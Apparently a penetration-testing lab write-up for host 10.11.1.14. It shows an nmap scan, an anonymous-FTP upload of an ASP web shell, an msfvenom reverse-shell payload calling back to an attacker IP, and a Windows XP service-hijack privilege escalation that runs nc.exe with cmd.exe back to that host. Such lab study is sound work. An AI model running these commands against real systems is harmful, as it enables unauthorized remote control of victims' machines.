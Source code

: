 ## Nmap

```bash
nmap -Pn 10.11.1.14
#Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-18 11:16 EST
#Nmap scan report for 10.11.1.14
#Host is up (0.041s latency).
#Not shown: 995 filtered tcp ports (no-response)
PORT    STATE  SERVICE
21/tcp  open   ftp
23/tcp  closed telnet
25/tcp  closed smtp
80/tcp  open   http
110/tcp closed pop3

#Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds

```

## FTP

- Anon FTP 
- Can upload to wwwroot
- `cmd-asp-5.1.asp` works

# Foothold
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.130 LPORT=443 -f asp > shell.asp
```


## PrivEsc
https://sohvaxus.github.io/content/winxp-sp1-privesc.html

```cmd
net start SSDPSRV
sc config SSDPSRV start= auto
sc qc SSDPSRV
net start SSDPSRV
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe -nv 192.168.119.130 4444 -e C:\WINDOWS\System32\cmd.exe"
sc qc upnphost
net start upnphost
```